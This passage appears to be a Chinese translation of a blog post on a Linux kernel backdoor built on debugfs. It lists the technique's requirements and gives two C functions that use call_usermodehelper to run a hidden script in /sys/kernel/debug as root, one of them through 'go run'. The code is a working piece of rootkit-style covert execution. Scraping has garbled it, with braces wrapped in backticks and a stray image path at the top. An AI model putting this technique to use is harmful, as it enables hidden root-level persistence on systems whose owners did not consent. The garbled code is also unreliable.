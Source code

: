 本节的完整代码可以在[这里](https://github.com/nbulischeck/debugfs-backdoor/blob/master/backdoor/nfhook.c)找到。



## 限制
1. debugfs必须出现在目标的内核版本中(&gt;=2.6.10-rc3)。
1. 必须挂载debugfs(如果不是的话，这是很容易修复的)。
1. rculist.h必须存在于内核中(&gt;=Linux2.6.27.62)。
1. 只能运行解释脚本。
任何包含解释器指令(python、ruby、perl等)的命令都可以在调用**call_usermodehelper**时协同工作。有关解释器指令的更多信息，请参阅[维基百科的这篇文章](https://en.wikipedia.org/wiki/Shebang_(Unix))。

```
void execute_file(void)`{`
    static char *envp[] = `{`
        "SHELL=/bin/bash",
        "HOME=/root/",
        "USER=root",
        "PATH=/usr/local/sbin:/usr/local/bin:"
            "/usr/sbin:/usr/bin:/sbin:/bin",
        "DISPLAY=:0",
        "PWD=/", 
        NULL
    `}`;

    char *argv[] = `{`
        "/sys/kernel/debug/debug_exec",
        NULL
    `}`;

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
`}`
```

Go也可以工作，但可以说它并不完全在RAM中，因为它必须生成一个临时文件才能构建它，而且它还需要.go文件扩展名，从而使这一点更加明显。

```
void execute_file(void)`{`
    static char *envp[] = `{`
        "SHELL=/bin/bash",
        "HOME=/root/",
        "USER=root",
        "PATH=/usr/local/sbin:/usr/local/bin:"
            "/usr/sbin:/usr/bin:/sbin:/bin",
        "DISPLAY=:0",
        "PWD=/", 
        NULL
    `}`;

    char *argv[] = `{`
        "/usr/bin/go",
        "run",
        "/sys/kernel/debug/debug_exec.go",
        NULL
    `}`;

    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
`}`
```
